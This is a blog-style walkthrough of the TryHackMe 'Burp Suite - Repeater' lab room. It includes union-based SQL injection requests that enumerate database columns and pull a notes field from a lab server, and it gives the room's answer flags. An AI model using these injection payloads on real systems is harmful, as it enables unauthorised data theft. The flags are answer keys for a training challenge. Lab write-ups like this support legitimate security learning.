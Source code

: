 ```yaml
---
title: Burp Suite - Repeater
author: CYB3RM3
name: CYB3RM3 | Burp Suite - Repeater
date: 2021-09-18 17:21:00 +0100
categories: [TryHackMe, Web]
tags: [Web, BurpSuite]
---
```


Learn how to use Repeater to duplicate requests in Burp Suite
THM Room [https://tryhackme.com/room/burpsuiterepeater](https://tryhackme.com/room/burpsuiterepeater)

## TASK 1 : Outline
### Deploy the machine (and the AttackBox if you are not using your own attack VM), and let's get started ! Note: If you are not using the AttackBox and want to connect to this machine without the VPN, you can do so using this link once the machine has fully loaded and an IP address is displayed: https://LAB_WEB_URL.p.thmlabs.com.

No Answer.

## TASK 2 : What's the Repeater ?
### Familiarise yourself with the Repeater interface.

No Answer.

## TASK 3 : Basic Usage
### Capture a request to http://10.10.46.79 in the Proxy and send it to Repeater. Practice modifying and re-sending the request numerous times.

No Answer.

## TASK 4 : Views
### Experiment with the available view options.

No Answer.

### Which view option displays the response in the same format as your browser would ?

Answer : Render

## TASK 5 : Inspector
### Get comfortable with Inspector and practice adding/removing items from the various request sections.

No Answer.

## TASK 6 : Example
### Capture a request to http://10.10.46.79/ in the Proxy and send it to Repeater.

No Answer.

### Send the request once from Repeater -- you should see the HTML source code for the page you requested in the response tab. Try viewing this in one of the other view options (e.g. Rendered).

No Answer.

### Using Inspector (or manually, if you prefer), add a header called FlagAuthorised and set it to have a value of True. e.g.: Send the request. What is the flag you receive ?

(hint : Make sure you leave the two blank lines at the bottom of the request !)

![Burp modify header flag](/images/thm/burpRepeater/Burp Suite_ Repeater_1.png)
_Burp modify header flag_

Answer : THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}

## TASK 7 : Challenge
### Capture a request to one of the numeric products endpoints in the Proxy, then forward it to Repeater.

No Answer.

### See if you can get the server to error out with a "500 Internal Server Error" code by changing the number at the end of the request to extreme inputs. What is the flag you receive when you cause a 500 error in the endpoint ?

I tried 10 and get a 404 error so i decide to try an invalid integer here (-1) and get the error "500 Internal Server Error". Then jsut look around the response HTML code and you'll find the flag !

![ERROR 500](/images/thm/burpRepeater/Burp Suite_ Repeater_2.png)
_ERROR 500_

## TASK 8 : SQLi with Repeater
### Let's start by capturing a request to http://10.10.46.79/about/2 in the Burp Proxy. Once you have captured the request, send it to Repeater with Ctrl + R or by right-clicking and choosing "Send to Repeater"

No Answer.

### Now that we have our request primed, let's confirm that a vulnerability exists. Adding a single apostrophe (') is usually enough to cause the server to error when a simple SQLi is present, so, either using Inspector or by editing the request path manually, add an apostrophe after the "2" at the end of the path and send the request.

No Answer.

### This is an extremely useful error message which the server should absolutely not be sending us, but the fact that we have it makes our job significantly more straightforward. With this information, we can skip over the query column number and table name enumeration steps.

No Answer.

### Looking through the returned response, we can see that the first column name (id) has been inserted into the page title.

We can change the request header with :

```sql
GET /about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people" HTTP/1.1
```
{: .nolineno }

This give us change in the response HTML :

```html
<title>About | id None</title>
```
{: .nolineno }

No Answer.

### We have successfully pulled the first column name out of the database, but we now have a problem. The page is only displaying the first matching item -- we need to see all of the matching items.

We can change the request header with :

```sql
GET /about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people" HTTP/1.1
```
{: .nolineno }

This give us change in the response HTML :

```html
<title>About | id,firstName,lastName,pfpLink,role,shortRole,bio,notes None</title>
```
{: .nolineno }

No Answer

### Considering our task, it seems a safe bet that our target column is notes.

Finally, we are ready to take the flag from this database -- we have all of the information that we need:
    The name of the table: people.
    The name of the target column: notes.
    The ID of the CEO is 1; this can be found simply by clicking on Jameson Wolfe's profile on the /about/ page and checking the ID in the URL

To retreive the flag in the CEO's notes, we need to craft the query SLQ :

```sql
GET /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1 HTTP/1.1
```
{: .nolineno }

 We can see the flag in the Response HTML :

 ```html
<title>About | THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh} None</title>
```
{: .nolineno }

No Answer.

### Exploit the union SQL injection vulnerability in the site. What is the flag?

Answer : THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}

## TASK 9 : Room Conclusion

### I can use Burp Suite Repeater

No Answer.